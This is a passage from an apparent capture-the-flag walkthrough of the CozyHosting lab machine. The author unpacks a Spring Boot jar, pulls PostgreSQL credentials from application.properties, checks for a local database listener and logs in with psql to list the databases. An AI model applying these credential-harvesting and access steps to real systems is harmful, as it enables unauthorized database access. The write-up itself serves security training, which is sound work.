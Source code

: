 ```console
$ mkdir cozyjar && cd cozyjar
$ unzip -l ../cloudhosting-0.0.1.jar
Archive:  cloudhosting-0.0.1.jar
  Length      Date    Time    Name                                               
---------  ---------- -----   ----                                                                            
0  2023-08-10 23:22   META-INF/                                                  451  2023-08-10 23:22   META-INF/MANIFEST.MF
[...]
```

After some grepping around, I find database credentials the file `BOOT-INF/classes/application.properties`:

```text
spring.datasource.username=postgres                     
spring.datasource.password=Vg&nvz[...]
```

I check if there are any database services listening on the target:

```console
app@cozyhosting:/app$ netstat -lnp |grep 5432
netstat -lnp |grep 5432
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN      -                   
unix  2      [ ACC ]     STREAM     LISTENING     22401    -                    /var/run/postgresql/.s.PGSQL.5432

```

Port 5232 is the PostgreSQL default port. I'm able to login using the credential discovered earlier:

```console
app@cozyhosting:/app$ psql -h localhost -U postgres -W
psql -h localhost -U postgres -W
Password: Vg&nvz[...]

psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=# \l

\l
WARNING: terminal is not fully functional
Press RETURN to continue 
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privil
eges   
-------------+----------+----------+-------------+-------------+----------------
-------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | 
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres    
      +
             |          |          |             |             | postgres=CTc/po
stgres
(4 rows)

```